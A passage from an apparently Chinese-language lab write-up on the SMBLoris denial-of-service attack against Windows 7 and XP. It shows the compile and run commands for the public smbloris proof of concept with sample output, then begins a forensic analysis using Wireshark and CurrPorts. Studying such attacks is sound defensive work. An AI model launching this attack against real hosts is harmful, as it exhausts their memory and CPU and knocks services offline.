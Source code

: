 <img src="https://imgur.com/PoZcqRf.jpg" width="50%" height="50%">

至此，本次攻擊成功
這邊由於示範沒有讓他跑滿，若跑滿*65536*個PORT
可以吞掉大約8GB左右的記憶體
<img src="https://imgur.com/7tg8zNc.jpg" width="50%" height="50%">
圖片來自[官網](https://web.archive.org/web/20190329104319/http://smbloris.com/)

---
##### 利用PoC
雖然都叫PoC了，代表不是正式的攻擊工具
不過在我的情況下，這個工具才對我的XP系統在**CPU**有比較明顯的反應
Win 7更誇張了，會導致UI整個卡住:rofl:

1. 進行編譯
``$ gcc -o smbloris smbloris.c``
2. 攻擊
我們來看一下格式

```shell
$ sudo ./smbloris
Usage: ./smbloris <iface> <src_ip_start> <src_ip_end> <dst_ip>
```
這邊我們source IP暫時先設別組
如果設定我們自己的話，可能會被reply炸掉
```shell
$ sudo ./smbloris eth0 192.168.0.0 192.168.0.255 192.168.85.129
Local MAC address: 00:0c:29:18:1d:29
c0a80012:9196 1216900 sent, 0 errors (0), 0 replies, 0 resets^C
```

<img src="https://imgur.com/axwAzsa.jpg" width="50%" height="50%">

至此，本次攻擊成功
不知道為甚麼，有股SYN Flooding的既視感
不過跟Win 7有些不同，主要是CPU占用較為明顯
有關**記憶體**的主要部分反而沒有明顯的反應

---
## 鑑識

#### 需先準備軟體
1. **Wireshark**
2. **CurrPorts**

這次多了一套新軟體，CurrPorts是一款輕量級簡潔的小工具
可用來查看有哪些Port被程式使用

由於這次有兩部主機，所以各談各自的資料
#### Win 7

首先我們可以從Currports看到
有大量來自 **(Kali)** 192.168.85.130已建立的連線
<img src="https://imgur.com/RgvEnAn.jpg" width="50%" height="50%">
